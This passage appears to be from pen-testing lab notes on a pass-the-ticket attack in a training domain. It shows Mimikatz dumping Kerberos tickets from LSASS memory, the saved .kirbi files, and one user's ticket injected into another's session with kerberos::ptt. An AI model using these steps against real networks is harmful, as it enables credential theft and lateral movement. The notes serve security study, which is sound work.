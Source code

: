 ```
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

The above command parsed the LSASS process space in memory for any TGT/TGS, which is then saved to disk in the kirbi mimikatz format
+ Because inspecting the generated tickets indicates that _dave_ had initiated a session, we can try to inject one of their tickets inside _jen_'s sessions
+ We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension
```
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```
+ These are the saved kerberos ticket files

As many tickets have been generated, we can just pick any TGS ticket in the **`dave@cifs-web04.kirbi`** format and inject it through mimikatz via the **kerberos::ptt** command:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
+ Example output:
```
* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```
+ No errors have been thrown, meaning that we should expect the ticket in our session when running `klist`:
```
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname